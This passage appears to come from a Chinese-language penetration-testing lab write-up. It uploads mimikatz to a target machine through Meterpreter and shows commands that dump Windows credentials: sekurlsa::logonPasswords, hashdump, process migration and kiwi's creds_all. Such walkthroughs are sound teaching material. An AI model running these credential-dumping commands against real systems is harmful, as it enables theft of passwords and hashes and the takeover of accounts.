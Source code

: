 ![image-20230516140936257](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516140936257.png)

然后把mimikatz上传到靶机

```
upload /root/mimikatz.exe C:\\
//然后进入靶机的shell，运行mimikatz
```

![image-20230516141908799](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516141908799.png)

对mimikatz进行提权

```
privilege::debug
```

### 抓取密码

```
sekurlsa::logonPasswords
```

![image-20230516142417861](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516142417861.png)

看了其他大佬的博客，发现有更方便的方法：

> 1.导入账号密码hash值：
>
> ```
> run hashdump
> ```
>
> 2.mimikatz
>
> 加载mimikatz模块，加载模块前需要先将meterpreter迁移到64位的进程(需要system权限)：
>
> ```
> ps
> ```
>
> ![image-20230516201719751](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516201719751.png)
>
> ```
> migrate PID
> load mimikatz
> mimikatz_command -f sekurlsa::searchPasswords
> ```
>
> ![image-20230516202510583](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516202510583.png)
>
> 3.kiwi
>
> ```
> load wiki
> creds_all
> ```
>
> ![image-20230516202325608](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516202325608.png)
>
> 
